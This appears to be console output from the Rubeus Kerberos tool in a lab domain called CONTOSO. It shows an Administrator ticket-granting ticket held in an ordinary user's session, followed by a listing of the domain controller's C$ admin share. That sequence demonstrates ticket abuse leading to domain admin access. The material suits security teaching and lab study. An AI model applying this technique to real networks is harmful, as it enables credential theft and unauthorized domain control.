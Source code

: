```

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x6d35b

  UserName                 : david
  Domain                   : CONTOSO
  LogonId                  : 0x6d35b
  UserSID                  : S-1-5-21-3654360273-254804765-2004310818-1104
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 9/30/2021 10:02:20 PM
  LogonServer              : DC01
  LogonServerDNSDomain     : CONTOSO.LOCAL
  UserPrincipalName        : david@contoso.local

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 9/30/2021 10:30:17 PM ; 10/1/2021 8:30:17 AM ; 10/7/2021 10:30:17 PM
      Server Name       : krbtgt/contoso.local @ CONTOSO.LOCAL
      Client Name       : Administrator @ CONTOSO.LOCAL
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)


C:\Tools>dir \\dc01.contoso.local\C$
 Volume in drive \\dc01.contoso.local\C$ has no label.
 Volume Serial Number is BE65-6495

 Directory of \\dc01.contoso.local\C$

09/15/2018  12:19 AM    <DIR>          PerfLogs
09/12/2021  07:34 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
09/12/2021  04:09 AM    <DIR>          Tools
09/12/2021  07:33 PM    <DIR>          Users
09/30/2021  07:35 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  51,451,158,528 bytes free

C:\Tools>
```

